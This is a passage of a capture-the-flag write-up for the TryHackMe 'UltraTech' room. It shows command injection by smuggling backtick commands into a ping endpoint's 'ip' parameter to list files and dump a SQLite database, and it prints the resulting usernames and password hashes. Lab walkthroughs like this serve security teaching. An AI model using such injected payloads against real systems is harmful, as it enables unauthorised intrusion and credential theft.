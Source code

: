 It will look something like this:
```bash
# Initial command with Command Substitution
ping `pwd`

# After Command Substitution
ping /home/www/api
```

![image.png](/assets/writeups/thm/thm-ultratech/command-injection-vuln.png)

Doing more command injection attacks, we found a file called `utech.db.sqlite` by running the `ls` command on the server. This also answers the first question of Task 3.

![image.png](/assets/writeups/thm/thm-ultratech/command-injection-vuln2.png)


#### Task 3: Question 1 Flag
<details><summary><b>There is a database lying around, what is its filename?</b></summary></details>
<br>

We tried to view the database's contents by running the `cat` command and we got the following: 

```text
http://10.201.72.139:8081/ping?ip=`cat%20utech.db.sqlite`
```
```text
r00t:f357a0c52799563c7c7b76c1e7543a32
admin:0d0ea5111e3c1def594c1684e3b9be84
```

![image.png](/assets/writeups/thm/thm-ultratech/sqlite-output.png)
